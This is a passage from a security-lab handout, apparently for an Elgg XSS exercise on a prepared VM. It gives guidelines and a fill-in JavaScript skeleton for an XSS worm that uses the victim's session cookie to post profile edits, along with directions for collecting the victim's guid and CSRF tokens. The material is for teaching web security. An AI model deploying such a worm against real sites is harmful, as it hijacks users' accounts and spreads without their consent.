 To learn how to use {\tt XMLHttpRequest}, you can 
study these cited documents~\cite{ajaxnoobs,ajaxpostit}. 
If you are not familiar with JavaScript programming, we 
suggest that you read ~\cite{javascripttutorial} to learn some basic JavaScript
functions. You will have to use some of these functions.


\paragraph{Guideline 2: Code Skeleton.} We provide a skeleton of the JavaScript code 
that you need to write. You need to fill in all the necessary details.
When you store the final JavaScript code as a worm in the standalone file,
you need to remove all the comments, extra space, new-line characters, {\tt <script>}
and {\tt </script>}.

{\footnotesize
\begin{Verbatim}[frame=single] 
<script>
var Ajax=null;

// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name=..&description=...&guid="; // You need to fill in the
details.

// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{Verbatim} 
} 


You may also need to debug your JavaScript code. 
{\tt Firebug} is a Firefox extension that helps you debug JavaScript code. 
It can point you to the precise places that contain errors. 
It is already installed in our pre-built \ubuntu VM image.
After finishing this task, change the "Content-Type" to "multipart/form-data" 
as in the original HTTP request. Repeat your attack, and describe your observation. 


\paragraph{Guideline 3: Getting the user details.} To modify the victim’s profile the
HTTP requests send from the worm should contain the victim’s {\tt username},
{\tt Guid}, {\tt \_\_elgg\_ts} and {\tt \_\_elgg\_token}. These details are present in the web page
and the worm needs to find out this information using JavaScript code.



